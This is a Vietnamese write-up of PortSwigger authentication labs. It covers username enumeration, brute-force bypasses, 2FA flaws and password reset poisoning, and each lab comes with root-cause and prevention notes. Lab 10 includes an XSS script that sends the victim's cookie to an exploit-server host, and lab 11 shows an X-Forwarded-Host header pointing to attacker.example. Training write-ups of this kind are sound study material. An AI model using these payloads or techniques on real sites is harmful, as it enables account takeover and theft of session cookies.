# Portswigger - Authentication


## APPRENTICE

## 1. Lab: Username enumeration via different responses

### Mô tả bài

```
This lab is vulnerable to username enumeration and password brute-force attacks. It has an account with a predictable username and password, which can be found in the following wordlists.

To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page.
```

### Writeup

Nhiệm vụ của bài này là tìm được username và password của user và truy cập vào account page bằng bruteforce. Nếu bruteforce cả username và passowrd cùng một lúc sẽ phải gửi rất nhiều request và lâu. Vì vậy ta sẽ tiến hành burteforce lần lượt. 

Ta thử test chức năng đăng nhập.



Kết quả trả về:
```
Invalid username
```
Chuyển sang intruder để bruteforce.



Tìm request có respond khác biệt với `Invalid username`.



Vậy ra xác định được username là `ads`.

Tương tự với cách tìm password.





Tìm được mật khẩu là `soccer`, đăng nhập và solve bài lab.



### Root cause

Server trả thông báo khác nhau:
- Invalid username
- Incorrect password

Điều này tiết lộ username nào tồn tại.


## 2. Lab: 2FA simple bypass

### Mô tả bài

```
This lab's two-factor authentication can be bypassed. You have already obtained a valid username and password, but do not have access to the user's 2FA verification code. To solve the lab, access Carlos's account page.

Your credentials: wiener:peter
Victim's credentials carlos:montoya
```

### Writeup

Đăng nhập vào tải khoản wiener. Ta có thể thấy là sau khi đăng nhập trang web sẽ bắt ta nhập 1 OTP 4 số. Vào email client để lấy.



Ta để ý phần respond sẽ có luôn session của user mình đăng nhập mà chưa hề qua bước nhập mã OTP. Vì vậy đăng nhập vào user carlos, lấy session đó và thay username là carlos vào trang my-account:



Thành công solve bài lab.



### Root cause

```
Sau khi vượt qua bước username/password, server đã coi session gần như đăng nhập thành công nhưng chỉ điều hướng người dùng tới trang nhập mã 2FA. Endpoint /my-account không kiểm tra rằng bước 2FA đã hoàn tất.
```


## 3. Lab: Password reset broken logic

### Mô tả bài

```
This lab's password reset functionality is vulnerable. To solve the lab, reset Carlos's password then log in and access his "My account" page.

Your credentials: wiener:peter
Victim's username: carlos
```

### Writeup

Trước khi đăng nhập ta có thể chức năng Forgot password, tiến hành reset mật khẩu với user wiener. Khi đó web sẽ gửi về email một đường link để reset password. 

Đăng nhập lại vào wienner vào Email client để xem email đó.



Tiến hành nhập mật khẩu mới. Vậy là đã đổi password của wiener thành công. 



Ta thử đổi `username=carlos`



Thành công đổi mật khẩu của carlos, tiến hành đăng nhập vào truy cập my-account.



Solve được bài lab.


### Root cause

Khi submit mật khẩu mới:
- Server không kiểm tra lại `reset token`.
- Server tin vào trường `username` ẩn do client gửi lên.

Vì vậy có thể xóa `token` và đổi `username` thành nạn nhân.


## PRACTITIONER

## 4. Lab: Username enumeration via subtly different responses

### Mô tả bài

```
This lab is subtly vulnerable to username enumeration and password brute-force attacks. It has an account with a predictable username and password, which can be found in the following wordlists.

To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page.
```

### Writeup

Test chức năng đăng nhập khi sai username và password:



Trang web trả về 
```
Invalid username or password.
```

Ta tiến hành chuyển request sang Intruder và burteforce username.




Sau khi chạy xong hãy tìm ra kết quả nào khác với dòng:
```
invalid username or password.
```



Ta quan sát thấy respond này trả về khác với ở trên dấu `.`, vì vậy đây khả năng cao là username đúng -> username là `user`



Tương tự với phần password.



Ta tìm được password là `123456789`.



Solve được bài lab.



### Root cause

Thông báo nhìn gần giống nhau nhưng có khác biệt nhỏ:
- Invalid username or password.
- Invalid username or password 

Một bên kết thúc bằng dấu chấm, một bên bằng dấu cách.


## 5. Lab: Username enumeration via response timing

### Mô tả bài

```
This lab is vulnerable to username enumeration using its response times. To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page.

Your credentials: wiener:peter
```

### Writeup

Test thử chức năng đăng nhập. Thử nhiều lần sai khác nhau.



Quan sát thấy rằng IP sẽ bị chặn nếu đăng nhập sai quá nhiều lần. Lúc này ta nghĩ đến header `X-Forwarded-For`. Header này cho phép giả mạo địa chỉ IP, từ đó vượt qua cơ chế chống brute-force dựa trên IP. Xác định ứng dụng có hỗ trợ header này không:



Gửi request sang Burp và chọn loại tấn công là `Pitchfork attack`.



Đặt password thành một chuỗi rất dài do khi username đúng, server phải xử lý password. Trong lab, password càng dài thì thời gian xử lý càng lâu. Vì vậy dùng chuỗi dài để khuếch đại chênh lệch thời gian.

Quan sát kết quả cột Response received và Response completed để tìm request có thời gian phản hồi dài hơn đáng kể so với các request khác.



Thử lại request này vài lần để xác nhận. Xác định được username là `academico`.

Tương tự tìm password nhưng thay bằng username đã tìm được.





Tìm được password là `hunter`. Đăng nhập và solve bài lab.



### Root cause

Server chỉ thực hiện xử lý mật khẩu tốn thời gian khi username tồn tại. Với username không tồn tại, server trả về sớm.
```
Username sai  → bỏ qua kiểm tra password → nhanh
Username đúng → xử lý/hash password      → chậm
```
Ngoài ra, server tin `X-Forwarded-For` để xác định IP nên rate limit có thể bị bypass.


## 6. Broken brute-force protection, IP block

### Mô tả bài

```
This lab is vulnerable due to a logic flaw in its password brute-force protection. To solve the lab, brute-force the victim's password, then log in and access their account page.

Your credentials: wiener:peter
Victim's username: carlos
```

### Writeup

Khi đăng nhập sai quá 3 lần, sẽ phải đợi 1 phút.



Tuy nhiên, trước khi đủ 3 lần sai, nếu đăng nhập đúng bằng tài khoản đã cấp thì bộ đếm bị reset:
```
wiener + mật khẩu đúng  → reset bộ đếm
carlos + mật khẩu thử   → 1 lần sai
carlos + mật khẩu thử   → 2 lần sai
wiener + mật khẩu đúng  → reset bộ đếm
```

Vì vậy ta có thể dễ dàng bruteforce mà không bị chặn IP tạm thời.



Lưu ý ở đây ta phải tạo một pool có 

```
Maximum concurrent requests: 1
```

để đảm bảo request gửi đúng thứ tự. Nếu gửi song song, request reset bộ đếm có thể chạy sai vị trí.



Kết quả thu được password là `jordan`.



Đăng nhập và truy cập my-account.



Thành công solve được bài lab.


### Root cause

```
Logic reset bộ đếm sai, cho phép một lần đăng nhập hợp lệ xóa lịch sử thất bại của các tài khoản khác trên cùng IP.
```


## 7. Lab: Username enumeration via account lock

### Mô tả bài

```
This lab is vulnerable to username enumeration. It uses account locking, but this contains a logic flaw. To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page.
```

### Writeup

Đầu tiên ta tiến hành đăng nhập và chuyển request sang `Intruder` để bruteforce username và password trong danh sách có sẵn.



Trong khi chạy, ta phát hiện có một username là `an` sẽ trả về:

```
You have made too many incorrect login attempts. Please try again in 1 minute(s).
```



Trong khi các request khác trả về:

```
Invalid username or password
```



Ta nghi ngờ đó có thể là username đúng. Sau đó ta tiến hành bruteforce với username đó và danh sách mật khẩu.



Có thể thấy sẽ có hầu hết payload trả về:

```
You have made too many incorrect login attempts. Please try again in 1 minute(s).
```

Ta thử filter xem có request nào trả về khác dòng trên không.



Và ta phát hiện một payload không trả về thông báo gì và nghi ngờ nó là mật khẩu tức.



Đợi hết thời gian bị chặn, đăng nhập với username, password vừa rồi.



Thành công đăng nhập vào tài khoản này và solve được bài lab.

### Root cause

```
Trạng thái và thông báo account lock tiết lộ sự tồn tại của username.
```


## 8. Lab: 2FA broken logic

### Mô tả bài

```
This lab's two-factor authentication is vulnerable due to its flawed logic. To solve the lab, access Carlos's account page.

Your credentials: wiener:peter
Victim's username: carlos
You also have access to the email server to receive your 2FA verification code.
```

### Writeup

Đăng nhập vào tài khoản được cấp, nhập mã 2FA, ta quan sát được 2 request sau:

Request yêu cầu tạo mã 2FA `verify` xác định tài khoản cần xác minh:



Đén đây ta sẽ thay tham số `verify` thành carlos. Việc này khiến server tạo một mã 2FA tạm thời cho tài khoản Carlos mặc dù ta chưa biết mật khẩu của Carlos.

Quay lại trang đăng nhập và đăng nhập bằng tài khoản được cấp nhập sai một mã để tạo session:



Đến lúc này ta sẽ tiến thành burteforce mã 2FA này với danh sách mã gồm 4 chữ số từ `0000` đến `9999`:



Phần lớn request sẽ trả về `200`, nhưng request đúng sẽ trả về `302`. Đây là request xác minh 2FA thành công cho Carlos.



Nhấp chuột phải vào request này và chọn `Show response in browser`. Copy url này và mở trong trình duyệt đang proxy qua Burp, sau đó vào my-account.



Thành công solve được bài lab.

### Root cause


Request sử dụng tham số do client kiểm soát:
```
?verify=...
```
để xác định tài khoản cần tạo và kiểm tra mã 2FA. Tham số này không được ràng buộc với session của tài khoản đã vượt qua bước username/password.


## 9. Lab: Brute-forcing a stay-logged-in cookie

### Mô tả bài

```
This lab allows users to stay logged in even after they close their browser session. The cookie used to provide this functionality is vulnerable to brute-forcing.

To solve the lab, brute-force Carlos's cookie to gain access to his My account page.

Your credentials: wiener:peter
Victim's username: carlos
Candidate passwords
```

### Writeup

Đăng nhập vào tài khoản được cấp và chọn chức năng `stay logged in`, ta thấy request sau:





Cookie `stay-logged-in` sẽ có dạng là:

```
base64(username + ":" + md5(password))
```

Vậy giờ ta sẽ phải tạo một cookie có dạng:
```
base64(carlos + ":" + md5(x))
```

để vào được tài khoản của Carlos.

Vậy ta sẽ tiến hành bruteforce mật khẩu trong list có sẵn



Ở dưới phần `Payload processing`, thêm đúng thứ tự:
```
1. Hash: MD5
2. Add prefix: carlos:
3. Encode: Base64-encode
```



Request nào trả về `200` thì đó sẽ là kết quả đúng:





Thành công solve bài lab.


### Root cause

```
Token đăng nhập được tạo từ dữ liệu tĩnh và mật khẩu và có thể đoán được.
Dùng hash yếu, không salt.
Không sử dụng token ngẫu nhiên phía server.
```


## 10. Lab: Offline password cracking

### Mô tả bài

```
This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality. To solve the lab, obtain Carlos's stay-logged-in cookie and use it to crack his password. Then, log in as carlos and delete his account from the "My account" page.

Your credentials: wiener:peter
Victim's username: carlos
```

### Writeup

Đăng nhập vào tài khoản wiener đã được cấp và chọn chức năng `stay logged in`.



Lúc này server sẽ tạo ra một cookie stay-logged-in có dạng giống ở bài trước:

```
base64(username + ":" + md5(password))
```

Đề bài có gợi ý sẽ có lỗ hổng XSS ở comment, ta lợi dụng chức năng này thử xem có thể đánh cắp được cookie của carlos không.

```js
<script>
document.location='https://exploit-0afd002e04cf0a9d8020f7bd01f100e4.exploit-server.net/'+document.cookie
</script>
```



Truy cập aceess log ta có thể thấy request có chứa cookie stay-logged-in được ghi lại.



Decode base64 ta được:



Truy cập [here](https://crackstation.net/) để crack `md5`.



Ta tìm được password là `onceuponatime`. Tiến hành đăng nhập và tự xóa tài khoản carlos.



Solve được bài lab.


### Root cause

```
Lưu password-derived secret ở phía client. 
Dùng MD5 không salt. 
Cookie có thể bị JavaScript đọc và đánh cắp qua XSS
```


## 11. Lab: Password reset poisoning via middleware

### Mô tả bài

```
This lab is vulnerable to password reset poisoning. The user carlos will carelessly click on any links in emails that he receives. To solve the lab, log in to Carlos's account. You can log in to your own account using the following credentials: wiener:peter. Any emails sent to this account can be read via the email client on the exploit server.
```

### Writeup

Sử dụng chức năng forget password với tài khoản wiener.



Đến lúc này ta phải điều hướng để lấy được reset password link, ta nghĩ đến header `X-Forwarded-Host`. Đây là một HTTP header thường được reverse proxy hoặc load balancer thêm vào để báo cho backend biết hostname gốc mà người dùng đã truy cập.

Tiếp tục thử xem trang web có hỗ trợ header này không.



Vào access log của exploit server và quan sát thấy token forgot password của carlos:



TIến hành đổi mật khẩu bằng token vừa lấy được



Đăng nhập vào tài khoản carlos với mật khẩu vừa đổi và solve được bài lab.




### Root cause

Ứng dụng sử dụng header do client gửi để tạo đường dẫn reset:
```
X-Forwarded-Host: attacker.example
```
Email của nạn nhân nhận URL chứa domain của attacker, khiến reset token bị gửi tới attacker khi nạn nhân bấm vào.


## 12. Lab: Password brute-force via password change

### Mô tả bài

```
This lab's password change functionality makes it vulnerable to brute-force attacks. To solve the lab, use the list of candidate passwords to brute-force Carlos's account and access his "My account" page.

Your credentials: wiener:peter
Victim's username: carlos
```

### Writeup

Đăng nhập thử với tài khoản carlos và mật khẩu sai, ta có thể nhận ra khi đăng nhập sai quá 3 lần sẽ bị chặn, do đó không thể bruteforce password trực tiếp ở đây được.



Sau khi đăng nhập ta quan sát thấy chức năng đổi mật khẩu, test thử chắc năng ta thấy khi nhập current password sai thì trang trả về thông báo `Current password is incorrect`.



Khi đổi mật khẩu thành công sẽ trả về `200` và không hiện thông báo gì.



Khi nhập hai mật khẩu mới khác nhau thì sẽ trả về thông báo `New passwords do not match`. 



Lợi dụng thông báo trả về này ta có thay `username=carlos` và tiến hành bruteforce mật khẩu của `carlos`, đặt 2 mật khẩu mới khác nhau khi nào có request trả về `New passwords do not match` thì đó chính là mật khẩu của carlos.





Vậy mật khẩu carlos là `131313`, tiến hành đăng nhập và solve được bài lab.



### Root cause

```
Tin vào hidden parameter username.
Cho phép đổi username thành tài khoản khác.
Trả thông báo khác nhau tùy current password đúng hay sai.
Có thể tránh account lock bằng cách gửi hai mật khẩu mới không khớp.
```


## EXPERT

## 13. Lab: Broken brute-force protection, multiple credentials per request

### Mô tả bài

```
This lab is vulnerable due to a logic flaw in its brute-force protection. To solve the lab, brute-force Carlos's password, then access his account page.

Victim's username: carlos
```

### Writeup

Test thử chức năng đăng nhập thì phát hiện ra cứ đăng nhập sai quá 3 lần sẽ bị block.



Thử hướng đổi IP bằng header `X-Forwarded-For` vẫn không thả khi.




Quan sát kĩ một chút với bài này sẽ gửi username và password lên với dạng JSON, điều này đặt ra một câu hỏi có thể bypass login khi sử dụng JSON password array hay không (tham khảo tại [đây](https://www.linkedin.com/posts/niraj-patidar-57aa18250_cybersecurity-bugbounty-websecurity-share-7354106867754631169-kz8e/)).

Ta sẽ gửi hết danh sách password dưới dạng array trong một request dạng:

```json
"username" : "carlos",
"password" : [
    "123456",
    "password",
    "qwerty"
    ...
]
```



Vậy là đã có thể bypass login bằng cách sử dụng array và đăng nhập thành công vào tài khoản của carlos.



Solve được bài lab.


### Root cause

```
Không kiểm tra đúng kiểu dữ liệu đầu vào.
Rate limit tính theo số request thay vì số credential được kiểm tra.
Backend tự lặp qua toàn bộ mảng password.
```


## 14. Lab: 2FA bypass using a brute-force attack

### Mô tả bài

```
This lab's two-factor authentication is vulnerable to brute-forcing. You have already obtained a valid username and password, but do not have access to the user's 2FA verification code. To solve the lab, brute-force the 2FA code and access Carlos's account page.

Victim's credentials: carlos:montoya
```

### Writeup

Trước hết đăng nhập vào tài khoản carlos đã được cấp và quan sát thấy cứ khi nhập mã 2FA sai 2 lần là sẽ phải đăng nhập lại.



Cơ chế giới hạn số lần thử chỉ áp dụng trên mỗi phiên đăng nhập, nhưng ứng dụng vẫn cho phép:

Đăng nhập lại bằng username/password.
Nhận một session mới.
Tiếp tục nhập mã 2FA.

Do đó, có thể lặp lại quy trình:

```
Đăng nhập Carlos
Mở trang nhập 2FA
Thử một mã
Đăng nhập lại
Thử mã tiếp theo
```

Làm thủ công 10.000 lần là không khả thi, vì vậy cần dùng Session Handling Rule và Macro của Burp để tự động đăng nhập lại trước mỗi request Intruder.

Trước hết ta phải tìm các request cần dùng:

Request 1: `GET /login`, lấy trang đăng nhập và session/cookie ban đầu nếu ứng dụng yêu cầu.

Request 2: `POST /login`

Gửi thông tin đăng nhập của Carlos:
```
username=carlos&password=<password-carlos>
```

Request 3: `GET /login2`. 
Đưa session vào đúng trạng thái đang chờ nhập mã 2FA. Sau khi chạy macro, response cuối phải là trang chứa form yêu cầu mã bảo mật 4 chữ số. Điều này chứng minh macro đã đăng nhập thành công và session đã sẵn sàng để kiểm tra mã MFA.

Trong Burp mở:
```
Settings → Sessions → Session Handling Rules → Add
```
Ở tab `Scope`, chọn:
```
Include all URLs
```
Tại tab `Details`, thêm action:
```
Add → Run a macro
```
Macro gồm ba request:
```
GET /login
POST /login
GET /login2
```


Gửi request `POST /login2` sang Intruder. Trong Resource pool, đặt:
```
Maximum concurrent requests: 1
```



Mã sai thường trả về: `HTTP/2 200 OK` và mã đúng trả về: `302 Found`.



Trong bảng kết quả Intruder, lọc hoặc sắp xếp theo cột Status, sau đó tìm request có mã: `302`. Payload của request đó chính là mã 2FA đúng.



Solve được bài lab.


### Root cause

Mã 2FA chỉ có bốn chữ số:
```
0000–9999
```
Sau hai lần sai, ứng dụng chỉ logout người dùng nhưng không áp dụng giới hạn bền vững theo tài khoản. Kẻ kiểm thử có thể tự động đăng nhập lại rồi tiếp tục thử.


## Tổng kết

**Authentication Vulnerabilities** là các lỗ hổng trong cơ chế xác minh danh tính người dùng, khiến kẻ tấn công có thể đoán thông tin đăng nhập, chiếm tài khoản hoặc bỏ qua hoàn toàn bước đăng nhập.

### Các loại lỗi phổ biến
- **Brute-force**: Thử nhiều username và password đến khi đăng nhập thành công.
- **Username enumeration**: Dựa vào thông báo lỗi, status code hoặc thời gian phản hồi để xác định username hợp lệ.
- **Bypass chống brute-force**: Vượt qua khóa IP, khóa tài khoản hoặc rate limit do logic triển khai sai.
- **HTTP Basic Authentication yếu**: Thông tin username:password chỉ được Base64 và gửi lại trong mỗi request.
- **2FA/MFA bị lỗi**: Bỏ qua bước nhập mã, thay đổi cookie tài khoản hoặc brute-force mã xác minh.
- **Remember-me cookie yếu**: Cookie được tạo từ username, password, timestamp hoặc hash dễ đoán.
- **Password reset yếu**: Token dễ đoán, không hết hạn, không kiểm tra lại hoặc cho phép đổi tài khoản mục tiêu.
- **Change password yếu**: Cho phép sửa username, brute-force mật khẩu hiện tại hoặc đổi mật khẩu của người khác.

## Cách khai thác

Kẻ tấn công thường thử wordlist username/password, so sánh response để tìm username hợp lệ, thay đổi IP hoặc chèn lần đăng nhập đúng để reset bộ đếm, brute-force mã 2FA, sửa cookie xác định tài khoản, phân tích cookie `remember me`, sửa tham số trong chức năng reset hoặc đổi mật khẩu và truy cập trực tiếp trang sau đăng nhập để bỏ qua bước xác minh.

## Cách phòng tránh

- Dùng thông báo lỗi, status code và thời gian phản hồi giống nhau cho mọi lần đăng nhập sai.
- Áp dụng rate limiting, CAPTCHA và giới hạn thử theo cả tài khoản lẫn IP.
- Khuyến khích mật khẩu mạnh, không tái sử dụng và lưu mật khẩu bằng hash có salt.
- Bắt buộc HTTPS và HSTS.
- Dùng token session, remember-me và reset password có entropy cao, thời hạn ngắn và chỉ dùng một lần.
- Kiểm tra đầy đủ mọi bước của 2FA, reset và đổi mật khẩu.
- Sử dụng MFA thực sự, ưu tiên ứng dụng tạo mã hoặc khóa bảo mật.
- Không tin tưởng username, cookie, hidden field hoặc tham số do client gửi lên.